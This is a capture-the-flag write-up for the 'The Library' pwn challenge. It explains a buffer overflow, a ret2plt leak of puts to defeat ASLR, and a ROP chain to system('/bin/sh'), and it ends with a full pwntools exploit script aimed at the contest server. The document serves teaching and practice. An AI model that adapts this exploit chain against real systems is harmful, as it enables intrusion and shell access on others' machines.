 # The Library

So, from the name and desc, as well as the fact you're provided with the libc binary, we know this is a ret2libc right off the bat. Inspecting the source code, we can see the read function is called into a 16-byte array, reading 0x100 bytes from stdin. This opens up a lot of room for overflow.

The array is stored at rbp-0x10, leaving 24 bytes of padding until our ROP chain.

We can use ret2plt to leak a libc address by calling the libc function puts via the PLT on the puts entry in the GOT, effectively printing a libc address back to ourselves. This works because there's no PIE in the binary, so the GOT and the PLT are stable.

So, we can first send padding + poprdi + puts@got + puts@plt + main so that the program calls puts on puts@got, sending us a libc address, and then rets back into main so we can get another input. On this second input, now that we know exactly where the libc is and have defeated ASLR, we send padding + poprdi + /bin/sh address + ret gadget + system address. This forces the program to call system\("/bin/sh"\), popping a shell for us. The ret gadget is needed to fix stack alignment.

```python
from pwn import *
import sys 
mode = sys.argv[1]
NUM_TO_RET = 0x10 + 8
padding = b'A' * NUM_TO_RET
poprdi = 0x0000000000400733 # pop rdi ; ret
retgadget = 0x0000000000400506 # ret
e = ELF("./library")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6" if mode == 'local' else './libc.so.6')
p = e.process() if mode == 'local' else remote('2020.redpwnc.tf', 31350)
p.recvline()
leak = flat(padding, poprdi, e.got['puts'], e.plt['puts'], e.symbols['main'], word_size=64)
p.sendline(leak)
p.recvlines(2)
output = p.recvline()[:-1] + b'\x00\x00'
puts = u64(output)
log.info(f"Puts address leak:  {hex(puts)}")
libcbase = puts - libc.symbols['puts']
libc.address = libcbase
log.info(f"Libc base: {hex(libcbase)}")
p.recvline()
final = flat(padding,poprdi,next(libc.search(b"/bin/sh\x00")),retgadget,libc.symbols['system'],word_size=64)
p.sendline(final)
p.interactive()
```

